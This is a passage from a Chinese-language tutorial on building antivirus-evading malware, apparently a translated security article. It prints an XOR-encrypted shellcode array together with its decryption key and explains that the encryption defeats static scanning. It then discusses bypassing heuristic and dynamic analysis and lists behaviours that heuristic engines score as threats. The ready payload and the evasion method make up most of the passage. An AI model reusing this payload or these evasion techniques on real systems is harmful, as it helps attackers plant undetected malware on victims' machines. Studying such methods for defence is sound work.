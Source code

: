 为了保证合适的熵和大小，我将用异或简单加密，异或不是像RC4或者blowfish的加密方式，我们也不需要强加密。杀软不会试图解密shellcode，同时也使得静态分析困难。用异或加密速度快，避免加密库降低文件大小。

异或加密后的shellcode。



```
unsigned char Shellcode[] = `{`
0xfb, 0xcd, 0x8d, 0x9e, 0xba, 0x42, 0xe1, 0x93, 0xe2, 0x14, 0xcf, 0xfa,
0x31, 0x12, 0xb1, 0x91, 0x55, 0x29, 0x84, 0xcc, 0xae, 0xc9, 0xf3, 0x32,
0x08, 0x92, 0x45, 0xb8, 0x8b, 0xbd, 0x2d, 0x26, 0x66, 0x59, 0x0d, 0xb2,
0x9a, 0x83, 0x4e, 0x17, 0x06, 0xe2, 0xed, 0x6c, 0xe8, 0x15, 0x0a, 0x48,
0x17, 0xae, 0x45, 0xa2, 0x31, 0x0e, 0x90, 0x62, 0xe4, 0x6d, 0x0e, 0x4f,
0xeb, 0xc9, 0xd8, 0x3a, 0x06, 0xf6, 0x84, 0xd7, 0xa2, 0xa1, 0xbb, 0x53,
0x8c, 0x11, 0x84, 0x9f, 0x6c, 0x73, 0x7e, 0xb6, 0xc6, 0xea, 0x02, 0x9f,
0x7d, 0x7a, 0x61, 0x6f, 0xf1, 0x26, 0x72, 0x66, 0x81, 0x3f, 0xa5, 0x6f,
0xe3, 0x7d, 0x84, 0xc6, 0x9e, 0x43, 0x52, 0x7c, 0x8c, 0x29, 0x44, 0x15,
0xe2, 0x5e, 0x80, 0xc9, 0x8c, 0x21, 0x84, 0x9f, 0x6a, 0xcb, 0xc5, 0x3e,
0x23, 0x7e, 0x54, 0xff, 0xe3, 0x18, 0xd0, 0xe5, 0xe7, 0x7a, 0x50, 0xc4,
0x31, 0x50, 0x6a, 0x97, 0x5a, 0x4d, 0x3c, 0xac, 0xba, 0x42, 0xe9, 0x6d,
0x74, 0x17, 0x50, 0xca, 0xd2, 0x0e, 0xf6, 0x3c, 0x00, 0xda, 0xda, 0x26,
0x2a, 0x43, 0x81, 0x1a, 0x2e, 0xe1, 0x5b, 0xce, 0xd2, 0x6b, 0x01, 0x71,
0x07, 0xda, 0xda, 0xf4, 0xbf, 0x2a, 0xfe, 0x1a, 0x07, 0x24, 0x67, 0x9c,
0xba, 0x53, 0xdd, 0x93, 0xe1, 0x75, 0x5f, 0xce, 0xea, 0x02, 0xd1, 0x5a,
0x57, 0x4d, 0xe5, 0x91, 0x65, 0xa2, 0x7e, 0xcf, 0x90, 0x4f, 0x1f, 0xc8,
0xed, 0x2a, 0x18, 0xbf, 0x73, 0x44, 0xf0, 0x4b, 0x3f, 0x82, 0xf5, 0x16,
0xf8, 0x6b, 0x07, 0xeb, 0x56, 0x2a, 0x71, 0xaf, 0xa5, 0x73, 0xf0, 0x4b,
0xd0, 0x42, 0xeb, 0x1e, 0x51, 0x72, 0x67, 0x9c, 0x63, 0x8a, 0xde, 0xe5,
0xd2, 0xae, 0x39, 0xf4, 0xfa, 0x2a, 0x81, 0x0a, 0x07, 0x25, 0x59, 0xf4,
0xba, 0x2a, 0xd9, 0xbe, 0x54, 0xc0, 0xf0, 0x4b, 0x29, 0x11, 0xeb, 0x1a,
0x51, 0x76, 0x58, 0xf6, 0xb8, 0x9b, 0x49, 0x45, 0xf8, 0xf0, 0x0e, 0x5d,
0x93, 0x84, 0xf4, 0xf4, 0xc4
`}`;

unsigned char Key[] = `{`
0x07, 0x25, 0x0f, 0x9e, 0xba, 0x42, 0x81, 0x1a
`}`;
```

因为是新写的代码，所以hash特征不会被检测到。最重要的是我们要绕过动态分析，这个取决于“AV detect”模块。在写这个摸块前我们理解下启发式引擎的工作模式。

**启发式引擎**

启发式引擎是基于统计和规则的分析机制。他们主要的目的是检测事先未知的病毒，同时根据预定义的标准给出威胁等级，甚至当一个hello world程序被扫描时，如果大于他们定义的威胁阀值，也会被认定为威胁。启发式引擎是杀软产品中最高级的部分，基于大量的规则和指标，因此没有哪家杀软会发布关于他们自己的启发式引擎的文档，我们所有发现的威胁等级策略可能都是错误的。

一些已知的威胁等级规则如下：

解密过程检测

读取当前计算机名

读取机器的GUID

连接随机域名

